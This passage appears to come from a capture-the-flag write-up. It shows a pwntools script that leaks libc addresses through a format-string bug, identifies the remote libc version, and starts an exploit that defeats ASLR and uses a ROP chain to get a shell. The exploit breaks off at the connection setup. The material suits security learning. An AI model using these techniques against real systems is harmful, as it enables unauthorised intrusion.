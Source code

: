 Now we need to figure out the version of the libc that was used on the remote server. To do that, we're going to leak a few addresses from the stack.

Using a simple script (could also have been done in GDB), we can find out which addresses come from the libc (knowing that on my system and for this executable, the libc starts at `0xf7cad000`).

```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'ERROR'

exe = ELF("./service", checksec=False)

context.binary = exe
context.terminal = ['konsole', '-e']

for i in range(1, 1000):
    r = process([exe.path])
    r.recvuntil(': ')
    r.sendline(b'%' + str(i).encode() + b'$p-')
    greeting = r.recvuntil(': ')
    try:
        leaked_addr = int(greeting.split(b'-')[0].split(b' ')[-1].decode(), 16)
    except:
        leaked_addr = -1
    if hex(leaked_addr).startswith('0xf7'):
        print(b'%' + str(i).encode() + b'$p', hex(leaked_addr))
    r.close()
```

We can quickly identify the addresses that we get using GDB (`info symbol [addr]`):

```bash
%2$p 	  0xf7f64540 _IO_2_1_stdin_
...
%43$p 	0xf7dc0a0d __libc_start_main
```

.. now we can do the same on the remote host, and plug the values into the [libc database search](https://libc.blukat.me) website. After entering these values:

```
__libc_start_main_ret -> b41
_IO_2_1_stdin_        -> 5c0
```

We get four possible versions. I tested them all until one worked (using the exploit below). The correct version (or at least a compatible one) was `libc6-i386_2.28-10_amd64`.

Now that we know all of this, the exploit needs to 1. leak an address so that we can defeat ASLR and 2. build a simple ropchain to pop a shell.

Here is the exploit script:

```python
#!/usr/bin/env python3
from pwn import *

exe = ELF("./service")

context.binary = exe
context.terminal = ['konsole', '-e']

def conn():
    if args.LOCAL:
        r = process([exe.path])
    else:
        r = remote("XXX.XXX.XXX.XXX", 00000)
```